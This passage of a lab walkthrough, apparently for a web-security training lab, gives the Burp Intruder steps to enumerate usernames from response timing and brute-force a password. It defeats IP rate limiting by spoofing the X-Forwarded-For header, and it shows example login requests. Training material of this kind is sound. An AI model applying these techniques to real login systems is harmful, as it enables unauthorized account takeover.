

  
# Username Enumeration Using Intruder

## Step 6: Send Request to Intruder

1. Send the request to:

```text
Intruder
```

2. Set attack type to:

```text
Pitchfork
```

## Step 7: Add X-Forwarded-For Header

Add this header to the request:

```http
X-Forwarded-For: §1§
```

## Step 8: Configure Payload Positions

Example request:

```http
POST /login HTTP/2

X-Forwarded-For: §1§

username=§carlos§&password=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Payload positions:

1. X-Forwarded-For header
2. Username parameter


## Step 9: Configure Payload 1 (Spoofed IPs)

1. In the **Payloads** side panel:
2. Select:

```text
Payload position 1
```

3. Set payload type to:

```text
Numbers
```

4. Configure:

```text
From: 1
To: 100
Step: 1
Max fraction digits: 0
```

This generates spoofed IP values.


## Step 10: Configure Payload 2 (Usernames)

1. Select:

```text
Payload position 2
```

2. Paste the list of usernames.


## Step 11: Start Username Enumeration Attack

1. Start the attack.
2. After completion:
   - Click:

```text
Columns
```

3. Enable:

```text
Response received
Response completed
```

## Step 12: Identify Valid Username

1. Observe response times carefully.
2. One username consistently takes longer than others.

This indicates:

```text
Valid username found.
```

3. Repeat the request several times to confirm.
4. Note the valid username.



# Password Brute Force

## Step 13: Create New Intruder Attack

1. Create another Intruder attack.
2. Add:

```http
X-Forwarded-For: §1§
```

3. Insert the valid username.
4. Add payload markers around password.

Example:

```http
username=identified-user&password=§invalid-password§
```


## Step 14: Configure Password Attack Payloads

### Payload Position 1

Use:

```text
Numbers
```

Range:

```text
1 - 100
```

This changes spoofed IP addresses.

### Payload Position 2

Paste the password wordlist.

## Step 15: Start Password Attack

1. Start the attack.
2. Observe the:

```text
Status
```

column.

## Step 16: Identify Correct Password

1. Most responses return:

```text
200 OK
```

2. One response returns:

```text
302 Found
```

This indicates:

```text
Successful login.
```


3. Note the password from the Payload column.

## Step 17: Login Successfully

1. Open the login page.
2. Enter:
   - Valid username
   - Correct password

3. Login successfully.
4. Open the account page to solve the lab.

# Important Note

It is possible to brute-force both username and password together using:

```text
Cluster Bomb Attack
```

However, enumerating a valid username first is usually much faster and more efficient.

---
